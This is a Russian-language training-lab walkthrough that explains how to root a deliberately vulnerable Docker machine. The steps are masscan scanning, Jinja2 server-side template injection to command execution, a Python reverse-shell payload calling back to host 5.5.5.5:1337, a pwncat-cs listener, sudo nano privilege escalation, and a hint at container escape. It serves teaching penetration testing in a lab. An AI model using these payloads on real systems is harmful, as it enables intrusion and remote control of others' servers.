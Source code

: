 # LifeTrainings - занятие от 27.03.2023

### Установка и локальный запуск

Для успешного запуска данной машины требуется установить [docker](https://habr.com/ru/articles/253877/) и выполнить следующую команду из данной директории:
```bash
docker compose up --build -d
```
В случае запуска на локальной машине - некоторые шаги по получению ReverseShell будут другими.
___

### Уязвимая машина Easy (pentest)
___
**Задача:** имея на входе только ip адрес сервиса получить полный доступ (права root) на уязвимой машине

**Решение:**

1. Этап сканирования: 
```bash
masscan -p1-65535 <ip> --rate=1000
```
<details>
    <summary>Справка по ключам</summary>
    -p1-65535 - сканировать порты TCP от 1 до 65535 

    <ip> - айпи адрес уязвимой машины  
    
    --rate=1000 - количество пакетов посылаемое в секунду. При увеличении рейта увеличиться и скорость сканирования, но нектороые данные могут потеряться, т.к. сетевая карта/ширина канала не успеет/не позволит их обработать.
</details>
После сканирования известно о 3 открытых портах:
22 tcp - ssh хоста
2222 tcp - ssh проброшенный с контейнера
8090 tcp - web сервис

2. Изучение сайта на порту 8090:
 - Сайт содержит информацию про так называемые шаблоны страниц.
 - Можно попробовать проверить функционал работы данного шаблона.
 - Если бегло погуглить уязвиомости **jinja2**, которая используется для построения шаблонов (что кстати снова намекает нам на использования фреймворка **flask** и языка **python**) - можно найти информацию про [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

3. Пробуем подставить базовый шаблон `{{7*7}}`, видим ответ `49` и понимаем что попали в точку - перед нами типичная Server-Side-Template-Injection! Осталось проэксплуатировать.

4. Есть много разных пейлоадов, типа [таких](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---forcing-output-on-blind-rce), [таких](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread) и даже [таких классических](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-subprocesspopen)

Возьмем самый короткий (и один из самых стабильных, в отличии от "классического", в данном случае на мне придется перебирать сабклассы и методы):
```jinja2
{{ lipsum.__globals__["os"].popen('id').read() }}
```

Работает! Ну теперь получим ReverseShell, воспользовавшись уже знакомым [сайтом](https://www.revshells.com), тут вариантов много, выбираем какой нравиться. На занятии вам показывали такой вариант:
```jinja2
{{ cycler.__init__.__globals__.os.popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"5.5.5.5\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")\'').read() }}
```

Но можно придумать чуть более лакончиный и простой

4. Не забудем поднять listener (в этот раз возьмем pwncat-cs, что-бы научиться чему то новому):
- вводим на нашем сервере команду `pwncat-cs bind://0.0.0.0:1337`, что позволит нам запустить наш лисенер на внешнем адресе сервера (0.0.0.0 - означает внешний адрес).
- отправляем наш пейлоад полученный на шаге 3 на сервер и ловим сессию!
- теперь для того что бы переключиться на терминал удаленной машины - вводим команду back
- для того что бы вернуться на терминал нашего сервера - нажимаем сочетание клавиш ctrl+d
- стягиваем первый флаг из /home/server/user.txt

5. Теперь необходимо повысить привелегии до рута, можно загрузить различные linpeas.sh (или просто внимательно изучить документация pwncat-cs), а можно сразу на удачу вбить `sudo -l` (что это и для чего обьяснялось на предыдущем занятии) и увидеть следующую строку:
```bash
(ALL : ALL) NOPASSWD: /usr/bin/nano
```

Что означает что нам разрешен запуск от имени рута без ввода пароля программы `/usr/bin/nano`.

6. Воспользуемся [знакомым уже gtfobins](https://gtfobins.github.io) или же можно локально (на нашем сервере) вбить следующую команду и получить готовый результат:
```
gtfo -b nano
```

В любом из двух случаев найдем следующий лайфхак:
```
sudo nano
	^R^X
	reset; sh 1>&0 2>&0
```

Запускаем данные команду (не забыв указать полный путь до исполняемого бинарника nano - `/usr/bin/nano`) и получаем права root! Второй флаг лежит в /root/root.txt

7. А вот теперь перейдем к самой мякотке - мы можем выбраться еще дальше и повеселиться еще больше.
Если обратим внимание на [файл](docker-compose.yml), то увидим интересную строчку `privileged: true`.
А значит, мы можем выбраться из [docker'a](https://rioasmara.com/2021/08/11/docker-privileged-mode-for-privilege-escalation/).
Но для начала нам надо познакомитсья с самим докером, а уже потом научитсья из него сбегать.
Так это совсем другая история ;)

